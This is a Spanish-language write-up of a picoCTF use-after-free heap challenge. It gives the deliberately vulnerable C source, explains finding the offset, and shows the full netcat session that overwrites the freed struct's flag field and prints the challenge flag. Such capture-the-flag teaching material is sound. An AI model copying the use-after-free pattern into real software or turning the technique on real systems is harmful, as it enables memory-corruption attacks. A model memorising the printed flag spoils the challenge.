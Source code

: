 #ctf #pwn 

# Reconocimiento

Se nos entregan dos archivos, un **binario**, y su código fuente:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}

void print_menu() {
    printf("\n1. Print Heap\n2. Allocate object\n3. Print x->flag\n4. Check for win\n5. Free x\n6. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

// Create a struct
void init() {

    printf("\nfreed but still in use\nnow memory untracked\ndo you smell the bug?\n");
    fflush(stdout);

    x = malloc(sizeof(object));
    strncpy(x->flag, "bico", 5);
}

void alloc_object() {
    printf("Size of object allocation: ");
    fflush(stdout);
    int size = 0;
    scanf("%d", &size);
    char* alloc = malloc(size);
    printf("Data for flag: ");
    fflush(stdout);
    scanf("%s", alloc);
}

void free_memory() {
    free(x);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x->flag, x->flag);
    printf("+-------------+-----------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            alloc_object();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x->flag);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            free_memory();
            break;
        case 6:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Vemos 4 opciones relevantes: *2* para reservar memoria en el heap; *3* para imprimir x; *4* para comprobar si nos dan la flag; y *5* para liberar x.

El objetivo es conseguir que *x* valga `pico`. 

# Explotación

Para encontrar el offset, podemos liberar x con la opción *5* y tratar de reservar 50 bytes que contendrán un patrón con **cyclic**, luego con la opción *3* podremos ver qué offset utilizar. En este caso 31. 

Ahora solo debemos liberar *x* y reservar 30 bytes, pero proporcionar `pico` en el 31, de forma que se escribirá en *x*. Podemos pasar una cadena como `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico`.

```bash
nc tethys.picoctf.net 62789

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 30
Data for flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_c741213b}
```